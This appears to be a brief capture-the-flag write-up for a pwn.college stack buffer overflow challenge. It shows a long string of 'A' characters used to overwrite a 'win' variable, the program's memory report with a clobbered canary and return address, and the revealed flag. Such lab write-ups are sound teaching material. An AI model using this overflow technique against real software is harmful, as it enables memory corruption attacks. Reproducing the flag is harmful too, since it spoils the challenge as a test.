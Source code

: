 In this challenge we have to change the value of the `win` variable

The program accepts a string of any length which means we can overflow the buffer to get to the address where win variable is defined and change its value

Payload (The string could be of any length)
    
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


    The program's memory status:
    - the input buffer starts at 0x7ffdb347aef0
    - the saved frame pointer (of main) is at 0x7ffdb347af40
    - the saved return address (previously to main) is at 0x7ffdb347af48
    - the saved return address is now pointing to 0x4141414141414141.
    - the canary is stored at 0x7ffdb347af38.
    - the canary value is now 0x4141414141414141.
    - the address of the win variable is 0x7ffdb347af30.
    - the value of the win variable is 0x41414141.
    
    You win! Here is your flag:
    pwn.college{Y_nnvCk_75ZMaby6UK2VlmlJL2X.0VO4IDL5kzM1czW}

